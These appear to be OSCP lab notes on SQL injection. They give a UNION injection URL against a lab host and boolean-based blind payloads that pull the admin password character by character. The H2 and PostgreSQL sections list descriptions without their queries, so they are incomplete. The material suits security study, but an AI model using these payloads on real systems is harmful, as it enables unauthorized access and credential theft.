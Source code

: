 
##### worked for OSCP exercise:
```sql
http://192.168.215.52/debug.php?id=1 union select username, flag, time, password, 5 from users
```

```sql
sqlite_schema.type
```
	‘table’, ‘index’, ‘view’, or ‘trigger’  

```sql
sqlite_schema.name
```
	Holds name of the object  

```sql
sqlite_schema.sql
```
	Stores SQL text that describes the object (CREATE statement)  
  
```sql
admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)-- -
```
	Blind-Based Auth Bypass using Boolean-Based SQLi  
		CAST() - Convert value to a type.  
		X'54' - Hex representation of ‘T’. x'54' for ‘t’  

```sql
admin' AND length((SELECT password from users where username='admin'))==#-- -
```
	Check length of password  

#### H2  
```sql
schema()
```
	DB metadata  

```sql
h2version()
```
	Shows db version  

-- Shows user and hostname of the account interacting w/ the db  
-- Shows name of the db in use  
-- Shows account name used for Windows authentication used by the db  
-- Enumerates through all tables listed in schema  
-- Retrieves column names from the _users_ table  
  
#### PostgreSQL
-- DB metadata  
-- Shows db version  
-- Shows user and hostname of the account interacting w/ the db  
-- Shows name of the db in use  
-- Shows account name used for Windows authentication used by the db  
-- Enumerates through all tables listed in schema  
-- Retrieves column names from the _users_ table
